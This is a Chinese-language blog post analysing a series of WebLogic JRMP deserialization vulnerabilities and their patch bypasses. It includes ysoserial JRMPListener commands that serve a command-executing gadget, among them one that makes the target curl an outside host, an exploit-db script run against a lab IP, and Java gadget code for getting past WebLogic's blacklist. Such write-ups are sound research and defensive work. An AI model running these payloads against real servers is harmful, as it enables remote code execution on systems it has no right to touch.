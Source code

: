 ```yaml
---
title: "Weblogic JRMP反序列化及绕过分析"
date: 2020-02-26T20:30:20+08:00
draft: false
tags:
- Weblogic
- CVE
- Java
- 反序列化
series:
- Weblogic
categories:
- 代码审计
---
```


Weblogic JRMP反序列化的一系列漏洞及绕过分析.
<!--more-->
## 前言
JRMP是Java使用的另一种数据传输协议，在前文中提到了传输过程中会自动序列化和反序列化，因此weblogic出现了一系列的漏洞，即CVE-2017-3248、CVE-2018-2628、CVE-2018-2893、CVE-2018-3245，众所周知weblogic打补丁的形式为黑名单，所以CVE-2017-3248之后的洞都为黑名单绕过，本文逐一讲解。

## CVE-2017-3248
### 复现
因为本机没有python2，就直接在虚拟机里复现了。使用ysoserial监听JRMP服务
```
./Oracle/Middleware/jdk160_29/jre/bin/java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8080 CommonsCollections1 'touch /tmp/success'
```
[下载python版exp脚本](https://www.exploit-db.com/exploits/44553) ，运行
```
python 44553.py 172.16.2.129 7001 ./ysoserial.jar 172.16.2.129 8080 JRMPClient
```
成功创建/tmp/success文件
![image](https://y4er.com/img/uploads/20200226205381.png)

### 分析

JRMP在前文中提到了在传输过程中也会自动序列化和反序列化，那么我们可以构造一个gadgets，通过T3协议让weblogic自动请求我们的JRMPListener，然后JRMPListener返回给他一个恶意的gadgets对象，weblogic自动反序列化恶意对象，达到rce。

过程如图
![image](https://y4er.com/img/uploads/20200226201443.png)

整个构造需要两步
1. 构造T3协议的payload，让weblogic请求我们的JRMP -> 复现中的python脚本
2. 构造JRMPListener返回的gadgets                                -> 复现时监听JRMPListener

看下python脚本，发现脚本中是使用ysoserial生成payload.out，然后读出hex构造t3发包
![image](https://y4er.com/img/uploads/20200226206003.png)

看下JRMPClient.java的代码
![image](https://y4er.com/img/uploads/20200226200969.png)

利用java.rmi.registry.Registry，序列化RemoteObjectInvocationHandler，并使用UnicastRef和远端建立tcp连接，获取RMI registry，序列化之后发送给weblogic，weblogic会请求我们的JRMPListener，然后将获取的内容利用readObject()进行解析，导致恶意代码执行。

### 改造weblogic_cmd
BypassPayloadSelector.java
```java
public static Object selectBypass(Object payload) throws Exception {

    if (Main.TYPE.equalsIgnoreCase("marshall")) {
        payload = marshalledObject(payload);
    } else if (Main.TYPE.equalsIgnoreCase("streamMessageImpl")) {
        payload = streamMessageImpl(Serializables.serialize(payload));
    }else if(Main.TYPE.equalsIgnoreCase("JRMPListener")){
        payload = JRMPListener(cmdLine.getOptionValue("H")+":"+ cmdLine.getOptionValue("P"));
    }
    return payload;
}

public static Registry JRMPListener(String command) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if (sep < 0) {
        port = new Random().nextInt(65535);
        host = command;
    } else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    Registry proxy = (Registry) Proxy.newProxyInstance(BypassPayloadSelector.class.getClassLoader(), new Class[]{
        Registry.class
            }, obj);
    return proxy;
}
```
weblogic_cmd是一个很方便发送t3协议数据的工具，改了改通过参数-T来指定JRMPClient，加了一个JRMPClient方法，仍然需要用ysoserial.jar监听JRMPListener。
```
java -cp yso.jar ysoserial.exploit.JRMPListener 8080 CommonsCollections1 "curl http://172.16.1.1"
```

## CVE-2018-2628
先看CVE-2017-3248的补丁
```java
protected Class<?> resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
    String[] arr$ = interfaces;
    int len$ = interfaces.length;

    for(int i$ = 0; i$ < len$; ++i$) {
        String intf = arr$[i$];
        if (intf.equals("java.rmi.registry.Registry")) {
            throw new InvalidObjectException("Unauthorized proxy deserialization");
        }
    }

    return super.resolveProxyClass(interfaces);
}
```
思路一：resolveProxyClass反序列化代理类才会调用，直接反序列化UnicastRef对象，调用sum.rmi.server.UnicastRef#readExternal。
```java
public Registry getObject(final String command) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if (sep < 0) {
        port = new Random().nextInt(65535);
        host = command;
    } else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    return ref;
}
```
这样绕过之后补丁把UnicastRef加入了黑名单。

思路二：使用java.rmi.registry.Registry之外的类。廖新喜用的`java.rmi.activation.Activator`
```java
public Registry getObject(final String command) throws Exception {
    String host;
    int port;
    int sep = command.indexOf(':');
    if (sep < 0) {
        port = new Random().nextInt(65535);
        host = command;
    } else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    Activator proxy = (Activator) Proxy.newProxyInstance(JRMPClient3.class.getClassLoader(), new Class[] {
        Activator.class
            }, obj);
    return proxy;
}
```
## CVE-2018-2893
由于weblogic一直没有处理streamMessageImpl，导致CVE-2016-0638 + CVE-2018-2628 = CVE-2018-2893，用streamMessageImpl封装一下而已。

## CVE-2018-3245
RMIConnectionImpl_Stub代替RemoteObjectInvocationHandler，实际上就是找RemoteObject类的子类。https://github.com/pyn3rd/CVE-2018-3245

## 总结
一切罪恶的源头都是T3协议，weblogic还是禁用T3协议为好。weblogic黑名单补丁总是治标不治本，无奈的是补丁需要付费才能下载到。

## 参考
1. https://www.cnblogs.com/afanti/p/10256840.html
2. https://seaii-blog.com/index.php/2019/12/29/92.html
3. https://github.com/pyn3rd/CVE-2018-2893
4. https://mp.weixin.qq.com/s/ohga7Husc9ke5UYuqR92og
5. [廖新喜 CVE-2018-2628 简单复现与分析](http://xxlegend.com/2018/06/20/CVE-2018-2628%20%E7%AE%80%E5%8D%95%E5%A4%8D%E7%8E%B0%E5%92%8C%E5%88%86%E6%9E%90/)

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**